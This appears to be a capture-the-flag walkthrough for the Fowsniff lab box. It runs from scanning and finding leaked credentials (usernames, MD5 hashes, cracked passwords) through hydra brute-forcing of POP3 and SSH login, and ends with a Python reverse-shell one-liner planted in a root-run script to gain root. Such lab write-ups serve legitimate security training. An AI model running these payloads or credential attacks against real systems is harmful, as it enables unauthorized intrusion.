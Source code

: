 ## Fowsniff_CTF

'export IP=10.10.195.86'

## Hack into the FowSniff organisation.
First stage is to do an initial nmap Scan of the IP address given using the nmpa command `nmap -sC -sV -oN nmap/initial $IP`
Once the results from this scan are given which shows that port 80 is open we can do soem web enumaration will runing a full port scan of the box `nmap -p- -sC -sV -oN nmap/Full $IP`

While that is running we can use gobuster to do a full website `gobuster dir -u http://$IP:80 -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt > gobuster/sitescan`
We can also check out the website and see if that holds any cluss manually.
![]()
Looking at the page manually did not give us any information so we can also use google to search the web which allows us to find a twitter account connected to the corporation with the twitter handle `@Fowsniff` When reading the tweets it shows that there are two pastbins linked which are supposadly the passwords for the corporation
The first paste bin
`https://pastebin.com/NrAqVeeX`
The second paste bin
`https://pastebin.com/378rLnGi`

The first one is more important as it contains usernames and hashes and using crackstation to crack the md5 hashes you get:
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4:mailcall
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo101
tegel@fowsniff:1dc352435fecca338acfd4be10984009:apples01
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb:skyler22
seina@fowsniff:90dc16d47114aa13671c697fd506cf26:scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd:
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11:orlando12
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e:07011972

With the details we have gathered we can then try and bruteforce the pop3 as the pastebin said that the pop3 server was open.
For this we create a user and password files so that they can be used with hydra

`hydra pop3://$IP -L users.txt -P passwords.txt`

this shows that we can login with seina and pasword scoobydoo2

using this information we can then use netcat to connect to the pop3 server to see if we can get any extra information
`nc 10.10.195.86 110`

Once logged in we find there are two emails
retriving email 1

Within this email it shows that there is a temporary SSH Password S1ck3nBluff+secureshell

Looking at the second email it seems nothing important although there is a username we have not seen before and that is baksteen.

So using this information we can try and ssh into the box 
`ssh baksteen@$IP` witht the password S1ck3nBluff+secureshell
This information allows us to login

we can then use the command `id` to find what groups baksteen belongs to and we find out that he belongs to two diffrent groups users and baksteen so using this information we want to enumarate the box.
`find / -group users -type f 2>/dev/null`
looking at the results there is one file that looks interesting /opt/cube/cube.sh

When using vi on the cube.sh file we find it is the information for the ssh login page as such we could use this to get a reverse shell on the box as this is run by root.

Before we get a revershell we need to know what the box has on it already to run the command the first thing to try is python and python3
running the command `python` tells us that we have python3 installed so we can use python3 to get us a reverse shell using the command from this [pentest monkey page](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

we can then test that this revers shell works by listening on the given port and you should see the following:

Once we confirmed the sell works we want to exit the ssh shell and restart the netcat listner before trying to login in again and once you are then logged in again you shoud get the following:


now that we have the reverse shell we can go to roots home folder and find flag.txt.

